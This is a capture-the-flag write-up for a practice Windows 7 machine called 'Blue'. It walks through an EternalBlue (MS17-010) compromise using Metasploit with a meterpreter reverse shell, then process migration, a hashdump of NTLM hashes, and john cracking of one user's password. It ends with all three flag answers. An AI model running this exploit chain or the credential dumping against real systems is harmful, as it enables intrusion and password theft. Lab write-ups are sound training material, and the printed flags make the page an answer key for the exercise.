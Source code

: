 # [cd ../](../index.md)
# Blue

# Start

## Scans
[nmap](nmaps.txt)
- We have smb
- Search for vulns (windows 7 professional 7601 service pack 1 microsoft-ds exploit)  
  [Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)](https://www.exploit-db.com/exploits/42315)
- Just open metasploit and search for `MS17-010`  
  We need the `exploit/windows/smb/ms17_010_eternalblue` exploit.  
  Set it up and `exploit`

  ```
  set RHOSTS 10.10.133.12
  set payload windows/x64/meterpreter/reverse_tcp
  set encoder generic/none
  exploit
  ```
- Got ***nt authority\system***
- Migrate to an other process (`migrate <PID>`)

```
ps
migrate 624
```
![migrated](migrated.png)

- We can now get the user hashes, names with `hashdump`  

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
![hashdump](hashdump.png)  

## Crack the hash of Jon
Just save it locally and use john to crack it
```
echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > jon.hash
john --format=NT --wordlist=/home/matesz/tools/wordlists/rockyou.txt jon.hash
```
Got `alqfna22`

## Search for flags
- flag1 is in `/flag1.txt`  
  `flag{access_the_machine}`
- flag2 is in `/Windows/System32/config/flag2.txt`  
  `flag{sam_database_elevated_access}`
- flag3 is in `/Users/Jon/Documents`  
  `flag{admin_documents_can_be_valuable}`

# Got 3v3ry7h1ng
![done](done.png)
